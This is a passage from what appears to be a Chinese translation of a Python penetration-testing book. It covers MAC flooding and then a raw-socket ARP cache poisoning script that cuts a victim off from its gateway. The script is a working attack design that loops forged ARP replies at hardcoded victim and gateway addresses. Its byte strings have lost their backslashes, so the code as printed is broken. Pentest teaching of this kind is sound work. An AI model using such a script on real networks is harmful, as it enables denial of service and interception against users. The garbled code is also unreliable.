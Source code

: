 前面的代码非常容易理解。首先，它要求您要发送的数据包数量。然后，对于接口，您可以选择`WLAN`接口或`eth`接口。`eth_pkt`语句使用随机 MAC 地址形成一个以太网数据包。在`arp_pkt`语句中，形成了一个带有目标 IP 和目标 MAC 地址的 ARP 请求数据包。如果要查看完整的数据包字段，可以使用 Scapy 中的`arp_pkt.show()`命令。

`mac_flood.py`的 Wireshark 输出如下截图所示：

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/py-pentest-ess/img/490deb01-6f40-43dc-ae9e-bed6359bf000.png)

MAC 洪泛攻击的输出

MAC 洪泛的目的是检查交换机的安全性。如果攻击成功，请在报告中标记为成功。为了减轻 MAC 洪泛攻击，使用端口安全。端口安全将入站流量限制为一组选择的 MAC 地址或有限数量的 MAC 地址和 MAC 洪泛攻击。

# 通过原始套接字断开网关

在这种攻击中，受害者将保持连接到网关，但将无法与外部网络通信。简单地说，受害者将保持连接到路由器，但将无法浏览互联网。这种攻击的原理与 ARP 缓存中毒相同。攻击将向受害者发送 ARP 回复数据包，该数据包将使用另一个 MAC 地址将受害者的 ARP 缓存中的网关的 MAC 地址更改为另一个 MAC。在网关中也是同样的操作。

代码与 ARP 欺骗的代码相同，只是有一些更改，如下所述：

```py
import socket
import struct
import binascii
s = socket.socket(socket.PF_PACKET, socket.SOCK_RAW, socket.ntohs(0x0800))
s.bind(("eth0",socket.htons(0x0800)))

sor = 'x48x41x43x4bx45x52'

victmac ='x00x0Cx29x2Ex84x7A'
gatemac = 'x00x50x56xC0x00x08'
code ='x08x06'
eth1 = victmac+sor+code #for victim
eth2 = gatemac+sor+code # for gateway

htype = 'x00x01'
protype = 'x08x00'
hsize = 'x06'
psize = 'x04'
opcode = 'x00x02'

gate_ip = '192.168.0.1'
victim_ip = '192.168.0.11' 
gip = socket.inet_aton ( gate_ip )
vip = socket.inet_aton ( victim_ip )

arp_victim = eth1+htype+protype+hsize+psize+opcode+sor+gip+victmac+vip
arp_gateway= eth2+htype+protype+hsize+psize+opcode+sor+vip+gatemac+gip

while 1:
  s.send(arp_victim)
  s.send(arp_gateway)
```

